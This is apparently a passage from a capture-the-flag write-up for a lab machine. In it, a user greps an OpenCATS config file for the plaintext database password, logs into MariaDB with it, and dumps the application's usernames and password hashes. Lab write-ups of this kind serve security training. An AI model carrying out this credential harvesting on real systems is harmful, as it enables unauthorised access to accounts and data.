 ```bash
jennifer@admirertoo:/opt/opencats$ cat config.php | grep -i database
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
 * core team. If this setting is enabled, no writing to the database will
/* If enabled, the US zipcode database is installed and the user can filter
```

>[!important]
>cats     adm1r3r0fc4ts

Enumerated DB data:

```bash
jennifer@admirertoo:/opt/opencats$ mysql -u cats -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 134652
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> ...
MariaDB [cats_dev]> show tables;
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
...
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
55 rows in set (0.001 sec)

MariaDB [cats_dev]> select user_name,password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
3 rows in set (0.000 sec)
```
